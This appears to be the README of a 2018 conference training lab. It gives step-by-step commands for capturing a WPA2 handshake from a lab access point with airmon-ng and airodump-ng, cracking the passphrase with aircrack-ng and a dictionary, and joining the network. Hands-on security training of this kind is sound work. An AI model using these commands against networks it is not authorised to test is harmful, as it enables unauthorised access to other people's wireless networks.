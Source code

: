 # RSSC2018-Wireless-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started:
1. An access point broadcasting an SSID with a WPA2 password.
2. Kali Linux installed to attack the target host from.
3. A wireless card compatiable with Kali Linux to scan/monitor wireless networks in your vicinity. 

## Air Monitor
You will walk through the process of monitoring wireless networks and capturing a WPA2 handshake. You will need one Terminal window open to execute the following steps.

1. In your terminal, execute the iwconfig command to show any wireless cards in the computer. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You will need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, you need to change the wireless card to monitoring mode. You do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```
More information on the commands used, or other information about airmon-ng can be found by running `man airmon-ng`.  

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
You can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. You will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. 
```bash
airodump-ng wlan0mon –-bssid <mac-address> --channel <channel> –-write <filename>
``` 
Note: Replace the 'mac-address' and 'channel' with what you found in step 3 and give it a filename. MAC address will need to use numbers, colons, and all caps. See below for correct command:
```bash
airodump-ng wlan0mon --bssid 00:30:44:27:E3:38 --channel 1 --write rssc
```
airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the terminal window. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + c’. An 'ls' after you break out should display 'rssc-*.cap' file that we will use in the next step.
  
More information on the commands used, or other information about airodump-ng can be found by running `man airodump-ng`. 

## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng rssc-01.cap -a 2 -w dictionary.txt
```
* -a forces the attack mode. The '2' following -a is for WPA-PSK. A '1' is used for WEP.
* -w is the path to the dictionary file used for WPA cracking. In this case, 'dictionary.txt' is sitting in our home directory.

After a few seconds, it should find the password needed to get onto the 'RSSC' network. It is 'Drowssap2'.

More information on the commands used, or other information about aircrack-ng can be found by running `man aircrack-ng`. 

## Connecting to Wireless Network

Now that you have the WPA2 password, you can get onto the 'RSSC' network.

9. Before we can use the wireless card, we need to take it out of monitoring mode. 
```bash
airmon-ng stop wlan0mon
```

10. Back in terminal, type:
```bash
ping 192.168.0.1
```
This IP address is the AP/Router that is broadcasting this SSID. If you are able to ping it successfully, you have gotten onto the network. If not, make sure you are connected to the 'RSSC' network and try again.
